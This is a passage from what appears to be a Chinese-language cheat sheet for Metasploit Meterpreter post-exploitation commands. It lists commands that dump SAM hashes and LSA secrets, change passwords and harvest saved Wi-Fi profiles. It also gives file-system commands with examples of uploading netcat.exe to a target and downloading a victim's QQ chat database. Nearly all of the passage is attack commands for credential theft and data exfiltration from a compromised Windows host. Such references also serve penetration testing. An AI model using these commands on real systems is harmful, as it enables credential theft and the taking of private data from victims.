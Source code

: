 ```markdown
lsa_dump_sam

# dump出lsa的密文
lsa_dump_secrets

# 修改密码
password_change

# 列出当前用户的wifi配置文件
wifi_list

# 列出共享wifi配置文件/编码
wifi_list_shared




```


### 文件系统命令
```markdown
# 查看文件内容,文件必须存在

cat c:\boot.ini

# 删除指定的文件

del c:\boot.ini 

# 上传文件到目标机主上，如upload  setup.exe C:\\windows\\system32

upload /root/Desktop/netcat.exe c:\ 

# 下载文件到本机上如：

download C:\\boot.ini /root/

download C:\\"ProgramFiles"\\Tencent\\QQ\\Users\\295******125\\Msg2.0.db /root/

download nimeia.txt /root/Desktop/   

# 编辑文件

edit c:\boot.ini  

# 打印本地目录

getlwd

# 打印工作目录

getwd

# 更改本地目录

lcd

# 列出在当前目录中的文件列表

ls

# 打印本地目录
```